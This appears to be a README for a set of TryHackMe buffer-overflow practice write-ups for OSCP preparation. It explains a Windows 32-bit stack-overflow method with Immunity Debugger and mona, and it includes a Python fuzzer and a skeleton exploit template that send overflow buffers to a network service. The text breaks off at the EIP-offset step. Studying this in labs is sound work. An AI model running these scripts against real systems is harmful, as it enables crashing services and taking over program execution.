 # Buffer Overflow Prep from tryhackme.

This series of write-ups was to help me prep for a potential buffer overflow box for the revised OSCP exam.

Following the guide from [Tib3rius](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) (who also happens to be a co-author of this series.

This write-up containts the following machines, as well as a template for exploitation written bellow.

# Vulnerable Applications

- [The SLMail installer](/TryHackMe/Buffer_Overflow_Prep/slmail.md)

- [The brainpan binary](/TryHackMe/Buffer_Overflow_Prep/brainpan.md)

- [The dostackbufferoverflowgood binary](/TryHackMe/Buffer_Overflow_Prep/dostackbufferoverflowgood.md)

- [The vulnserver binary](/TryHackMe/Buffer_Overflow_Prep/vulnserver.md)

- [custom written "oscp" binary 1](/TryHackMe/Buffer_Overflow_Prep/1.md)

- [custom written "oscp" binary 2](/TryHackMe/Buffer_Overflow_Prep/2.md)

- [custom written "oscp" binary 3](/TryHackMe/Buffer_Overflow_Prep/3.md)

- [custom written "oscp" binary 4](/TryHackMe/Buffer_Overflow_Prep/4.md)

- [custom written "oscp" binary 5](/TryHackMe/Buffer_Overflow_Prep/5.md)

- [custom written "oscp" binary 6](/TryHackMe/Buffer_Overflow_Prep/6.md)

- [custom written "oscp" binary 7](/TryHackMe/Buffer_Overflow_Prep/7.md)

- [custom written "oscp" binary 8](/TryHackMe/Buffer_Overflow_Prep/8.md)

- [custom written "oscp" binary 9](/TryHackMe/Buffer_Overflow_Prep/9.md)

- [custom written "oscp" binary 10](/TryHackMe/Buffer_Overflow_Prep/10.md)

# BUFFER OVERFLOW METHODOLOGY.

[Tools](#tools-being-used)

[Fuzzing](#fuzzing)

[Crash Replication & Controlling EIP](#eip)

[Finding Bad Characters](#finding-bad-characters)

[Finding A Jump Point](#finding-a-jump-point)

[Generating a Payload](#generating-a-payload)

[Prepend NOP sled](#prepend-nop-sled)

[Final Buffer](#final-buffer)

A buffer overflow happens when the amount of data being placed into memory is greater than the buffer(or area) that was provided, causing the extra data to "overflow" into neighboring memory-space. This can allow an attacker to craft target specific data that can end up controlling the execution flow of the program, once they have broken free of the buffer prison. This is a template for discovering and exploiting buffer overflows on windows 32 bit systems.

## Tools being used

On the target system we will be using a debugger to view and pause the execution flow of the vulnerable applications, as well as search through system memory in order to craft our attack. The debugger being used in these examples is immunity debugger.

### IMMUNITY TIPS

- If at all possible, run as Administrator

- If target application is already running `File -> Attach`

- If target application is not running `File -> Open`

- If target application is a windows service may have to use `sc`

- To stop/start a windows service with sc `sc stop/start "service name"`

- `CTR F2` Restarts target application

- `F9` Runns the program (starts paused)

### MONA Configuration.

Mona is a powerful plugin for Immunity Debugger, written in python, that makes exploiting buffer overflows much easier.

- The latest version can be downloaded here: https://github.com/corelan/mona
- The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/
- Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands).
- In Immunity Debugger, type the following to set a working directory for mona.

```
!mona config -set workingfolder c:\mona\%p
```
## FUZZING

Fuzzing is the process of sending increasing lengths of data in order to crash the application, and then using a debugger to verify that EIP has been overwritten.

The sample python code below can be modified to automate that task. It will send the character A's `\x41` in hex).


### fuzz.py
```python
import socket, time, sys

ip = "10.0.0.1"
port = 21
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## EIP

First step is going to be to find the EIP register, here is a template for the actual expoit that can be modified to find and create the buffer overflow.

```python
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


With the <length> of bytes that caused the crash add 400 to make sure there is enough space for your shellcode. The guide written for this has you using the metasploit module pattern_create, but since we are already using mona from within mona, there is no reason not to just do this step on the target.


From within immunity CLI

`!mona pc <length>`

-OR-

Using metasploit (one of the modules allowed for OSCP)

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>|xclip -selection clipboard


